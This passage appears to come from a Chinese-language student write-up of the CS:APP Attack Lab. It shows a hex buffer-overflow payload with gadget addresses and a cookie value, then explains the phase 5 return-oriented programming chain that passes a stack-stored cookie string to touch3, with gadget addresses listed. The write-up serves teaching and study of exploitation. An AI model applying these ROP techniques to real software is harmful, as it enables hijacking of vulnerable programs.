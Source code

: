     00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    f3 19 40 00 00 00 00 00
    be 28 4b 24 00 00 00 00
    df 19 40 00 00 00 00 00
    6e 18 40 00 00 00 00 00
    ```

### 1.5. phase 5
+ 大致思路同3：
  + 把cookie的值存在栈中，不同的是本次要通过`%rsp`的偏移量来获得这个栈中的值，将cookie值存入`%rdi`。
  + 传完参数后调用touch3即可
+ 构造出来的栈图如下：
  ![avatar](./photo/2.png)
+ 寻找一系列代码块的代码：
  + 过程大致如下：
    + 要实现偏移，首先找到`lea  (%rdi,%rsi,1),%rax`语句。
    + 在偏移语句中，目标要将`%rsp`值存入`%rdi`中，将一个偏移量（后续计算）存入`%rsi`中。
    + 经过几次搜索尝试，发现经过`movq %rsp, %rax`和`movq %rax, %rdi`可以实现将`%rsp`值存入`%rdi`中。
    + 搜索`pop`的寄存器，发现存在直接`pop %rsi`的代码块，故直接使用。
    + 最后将`%rax`值存入`%rdi`中，作为函数的参数，`movq %rax, %rdi`代码块可以实现。
    + 通过栈图计算出偏移值为0x30。
+ 代码块地址如下：
```dotnetcli
movq %rsp, %rax
ret
#0x401a50

movq %rax, %rdi
ret
#4019df

pop %rsi
ret
#4012a1

lea    (%rdi,%rsi,1),%rax
ret
```